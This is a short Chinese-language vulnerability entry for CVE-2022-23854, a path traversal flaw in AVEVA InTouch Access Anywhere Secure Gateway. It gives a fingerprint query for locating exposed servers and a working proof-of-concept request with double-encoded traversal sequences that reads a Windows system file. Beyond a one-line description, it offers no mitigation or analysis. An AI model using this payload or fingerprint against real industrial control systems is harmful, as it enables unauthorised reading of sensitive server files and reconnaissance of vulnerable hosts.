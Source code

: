 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

<a-checkbox checked>AVEVA InTouch安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="InTouch Access Anywhere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665393583233-2d925e11-abc1-42ef-9f37-10142de6a596.png)

验证POC

```sql
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665393604635-b68b82e6-a3e9-48e9-8b40-46c7472c442d.png)